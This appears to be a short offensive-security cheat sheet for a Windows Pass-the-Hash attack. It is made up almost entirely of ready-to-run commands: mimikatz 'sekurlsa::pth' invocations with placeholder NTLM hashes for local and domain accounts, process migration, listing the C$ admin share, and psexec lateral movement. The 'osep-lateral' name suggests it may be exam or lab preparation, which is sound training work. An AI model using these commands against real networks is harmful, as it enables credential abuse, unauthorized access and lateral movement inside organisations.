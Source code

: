 # Pass-the-Hash PtH

### 1) PTH as a local user on a machine

    mimikatz '"privilege::debug" "sekurlsa::pth /user:Administrator /domain:. /ntlm:ffffffffffffffffffffffffffffffff" "exit"'
    mimikatz '"privilege::debug" "sekurlsa::pth /user:Administrator /domain:MACHINE01 /ntlm:ffffffffffffffffffffffffffffffff" "exit"'

### 2) PTH as a domain user

    mimikatz '"privilege::debug" "sekurlsa::pth /user:user /domain:domain.com /ntlm:ffffffffffffffffffffffffffffffff" "exit"'

### 3) migrate into the pid

    migrate -p 3316

### 4) List C$

    ls //machine/c$

### 5) Lateral movement

    psexec -d Title -s Description -p osep-lateral machine

